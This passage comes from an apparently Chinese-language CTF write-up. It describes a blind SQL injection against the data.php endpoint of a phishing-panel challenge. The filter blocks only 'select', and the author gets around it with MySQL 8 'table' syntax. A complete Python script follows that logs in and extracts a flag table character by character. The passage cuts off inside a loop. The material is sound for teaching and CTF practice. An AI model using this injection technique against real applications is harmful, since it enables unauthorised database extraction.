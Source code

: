 这个注入点是可以使用的, 因为源码的`waf`对我们的过滤几乎可以忽略(主要就是绿了`select`,直接就想到上周六打第五空间的时候遇到的mysql8,x使用table注入了,后面使用`version()>7`测试了一下确实如此), 我们访问`数据管理`模块就可以看到对`data.php`发出的请求

![image-20220921175402621](https://shs3.b.qianxin.com/attack_forum/attach-3dea37cad4e202ecad55f.png)

`m`为data,表示默认是输出`fish.dada`的全部数据,我们在后面加个where判断就可以构造出根据回显长度判断的注入语句了

注意: 这里输出的`data.php`是我们在钓鱼登录界面的登录记录,所以我们要有登录数据才行, 不过其实我们也可以直接使用`m=user`

![image-20220921175709621](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-12b52cbb24de10775b2ba2c1871ef3004cb4d66e.png)

![image-20220921175752059](https://shs3.b.qianxin.com/attack_forum/2022/09/attach-8e54677bf3e15ab2763de1e112697d4c8d5f2e65.png)

下面构造如下脚本:

```python
import requests

def makehex(text):
    rt="0x"
    for i in text:
        t=str(hex(ord(i)))
        rt+=t[2::]
    return rt
def getDatabase(mysqlline):  # 获取数据库名
    ans = ''
    session=requests.session()
    session.post(url+"login.php", data={"u": "admin", "p": "hardpass"})
    for i in range(1, 1000):
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            # sql = f"(0x646566,{makehex('fish')},{makehex('F5fl11A6g99')},%s,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,10,21,22)>(table information_schema.columns limit {mysqlline},1)" % makehex(ans + chr(mid))
            # 先是注出全部的数据库,发现只有一个fish数据库,之后通过行数和字段数逐个微调注入得到表名字段名,最后确定falg在fish.F5fl11A6g99表的F511LAAGG字段,这个表只有两个字段,第一个是id,第二个是flag的字段,所以构造得到如下语句
            sql = f"({mysqlline+1},%s)>(table fish.F5fl11A6g99 limit {mysqlline},1)" % makehex(ans + chr(mid))

            sql = f"where ({sql})"
            # print(sql)
            res = session.post(url + f"data.php?&page=1&limit=10&m=login {sql}",cookies={"PHPSESSID": "v81or11tusuhgflcskd9t6rqtv"})
            # print(res.text)

            if '{"code":0,"msg":"","count":0,"data":[]}' != res.text:#语句为真时的判断语句
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        ans += chr(mid - 1)
        print("executeEnd is -> " + ans)
    print("executeEnd is -> " + ans[:-1:]+chr(ord(ans[-1])+1))
    return ans[:-1:]+chr(ord(ans[-1])+1)

url = "http://eci-2zeh1wsl8upy70thgyhk.cloudeci1.ichunqiu.com/eec2d26be2fd5a8075d541425d7b0621/"
# tables-> 328
# columns共有3515个数据
# fish.F5fl11A6g99.F511LAAGG
# F5fl11A6g99表中2个字段id,F511LAAGG
for i in range(20):
```